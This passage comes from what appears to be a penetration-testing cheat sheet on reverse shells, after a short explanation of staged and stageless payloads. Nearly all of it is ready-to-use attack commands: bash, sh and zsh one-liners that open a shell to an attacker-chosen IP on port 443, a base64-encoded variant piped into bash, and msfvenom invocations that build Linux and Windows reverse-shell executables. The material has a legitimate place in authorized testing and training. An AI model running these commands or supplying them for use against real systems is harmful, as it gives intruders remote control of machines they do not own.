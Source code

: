 A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)

## Non-Meterpreter shells

### Useful reverse shells

- Reverse shell oneliners:

```sh
bash -i >& /dev/tcp/<ip>/443 0>&1 # bash
bash -c "bash -i >& /dev/tcp/<ip>/443 0>&1" # sh or dash
zsh -c 'zmodload zsh/net/tcp && ztcp <ip> 443 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY' # zsh
```

- Reverse shell encoded oneliner:

```sh
echo "bash -c 'bash -i >& /dev/tcp/<ip>/443 0>&1'" | base64
echo '<payload>' | base64 --decode | bash
```

- TCP reverse shell executable:

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 -f elf > shell.elf
```

### Windows

#### Powershell

[reverse PowerShell cmdline payload generator](https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58)

#### x86 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > <name>-x86.exe
```

#### x64 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > <name>-x64.exe
```

#### x86 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > <name>-x86.exe
```

#### x64 stageless - msfvenom (Non-Meterpreter)

